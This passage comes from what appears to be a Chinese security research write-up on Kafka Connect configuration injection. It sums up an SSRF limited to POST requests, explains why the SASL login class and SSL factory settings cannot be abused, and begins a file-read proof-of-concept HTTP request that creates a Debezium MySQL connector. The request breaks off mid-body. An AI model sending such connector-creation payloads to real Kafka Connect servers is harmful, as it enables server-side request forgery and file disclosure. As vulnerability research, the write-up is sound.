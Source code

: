 综上，kafka配置项可控时可进行SSRF攻击，但是只能发送POST请求，并且消息头只有Authrization头可控，body中只有scope参数可控。

再来解决前面留的两个问题：
    
1. 既然sasl.login.class和sasl.login.callback.handler.class可以指定，是否可以指定恶意类来加载利用?

    答： 指定的sasl.login.class类名虽然可以通过进行实例化，但是classLoader不可控的情况下没法利用；加上后面指定的sasl.login.class需要强转为`org.apache.kafka.common.security.auth.Login`，所以也没法利用(sasl.login.callback.handler.class类似);
   
![](/assets/images/kafka-config-injection/a13151c2c80c41b5ba111a2c139dcab4.png)

2. sslSocketFactory可否利用?

实例化传入的类时要求该类必须继承自SslEngineFactory，否则类型转换失败抛异常。

### 文件读

POC如下：
```text

POST /connectors HTTP/1.1
Host: 192.168.110.128:8083
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json
Connection: close
Content-Length: 1414

{
    "name": "t234",
    "config": {
        "connector.class": "io.debezium.connector.mysql.MySqlConnector",
        "database.hostname": "x.x.x.x",
        "database.port": "3306",
        "database.user": "enokiy",
        "database.password": "password",
        "database.dbname": "demo",
        "database.sslmode": "SSL_MODE",
        "database.server.id": "1234",
        "database.server.name": "localhost",
        "table.include.list": "MYSQL_TABLES",
        "tasks.max": "1",
        "topic.prefix": "test",
        "debezium.source.database.history": "io.debezium.relational.history.MemoryDatabaseHistory",
```